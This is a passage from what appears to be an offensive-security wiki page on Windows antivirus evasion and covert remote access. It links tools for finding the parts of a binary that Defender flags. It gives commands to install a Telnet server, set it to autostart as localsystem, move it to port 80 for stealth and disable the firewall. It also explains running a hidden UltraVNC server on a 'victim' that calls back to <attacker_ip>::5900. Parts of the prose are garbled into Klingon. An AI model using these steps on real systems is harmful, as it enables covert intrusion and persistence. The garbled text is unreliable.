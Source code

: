 I highly encourage you go watch this talk from [@ATTL4S](https://twitter.com/DaniLJ94), to get a foothold into more Advanced Evasion techniques.

{% embed url="https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo" %}

his is also another great talk from [@mariuszbit](https://twitter.com/mariuszbit) about Evasion in Depth.

{% embed url="https://www.youtube.com/watch?v=IbA7Ung39o4" %}

## **Old Techniques**

### **Check which parts Defender finds as malicious**

You can use [**ThreatCheck**](https://github.com/rasta-mouse/ThreatCheck) which will **remove parts of the binary** until it **finds out which part Defender** is finding as malicious and split it to you.\
Another tool doing the **same thing is** [**avred**](https://github.com/dobin/avred) with an open web offering the service in [**https://avred.r00ted.ch/**](https://avred.r00ted.ch/)

### **Telnet Server**

Until Windows10, all Windows came with a **Telnet server** that you could install (as administrator) doing:
```bash
pkgmgr /iu:"TelnetServer" /quiet
```
**Qa'vam** vItlhutlh **qaStaHvIS** je **chel** 'e' vItlhutlh:
```bash
sc config TlntSVR start= auto obj= localsystem
```
**Qapla' telnet port** (stealth) 'ej Qapla' firewall:
```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```
### UltraVNC

Download it from: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (you want the bin downloads, not the setup)

**ON THE HOST**: Execute _**winvnc.exe**_ and configure the server:

* Enable the option _Disable TrayIcon_
* Set a password in _VNC Password_
* Set a password in _View-Only Password_

Then, move the binary _**winvnc.exe**_ and **newly** created file _**UltraVNC.ini**_ inside the **victim**

#### **Reverse connection**

The **attacker** should **execute inside** his **host** the binary `vncviewer.exe -listen 5900` so it will be **prepared** to catch a reverse **VNC connection**. Then, inside the **victim**: Start the winvnc daemon `winvnc.exe -run` and run `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900`
